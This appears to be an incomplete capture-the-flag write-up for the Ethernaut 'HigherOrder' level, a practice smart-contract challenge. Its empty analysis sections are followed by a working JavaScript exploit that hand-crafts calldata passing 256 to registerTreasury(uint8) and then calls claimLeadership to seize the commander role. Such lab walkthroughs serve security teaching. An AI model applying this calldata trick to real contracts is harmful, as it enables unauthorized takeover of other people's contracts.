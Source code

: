 [Level 30. HigherOrder](https://ethernaut.openzeppelin.com/level/30)

## In A Nutshell

> 

## Concept

1. 

## Level Target

1. Become the `commander` of the `HigherOrder`.

## Breakdown & Analysis

1. 

## Detailed Steps

```js
const from = <your wallet address>;
const to = contract.address;
 // 211c85ab -> function selector of registerTreasury(uint8); 000...100 -> parameter 256
const calldata = "0x211c85ab0000000000000000000000000000000000000000000000000000000000000100";

await ethereum.request({
    method: "eth_sendTransaction",
    params: [{
        from: from,
        to: to,
        data: calldata
    }]
})

await contract.treasury().then(v => v.toString()) // check if treasury is set to 256
await contract.claimLeadership();
```
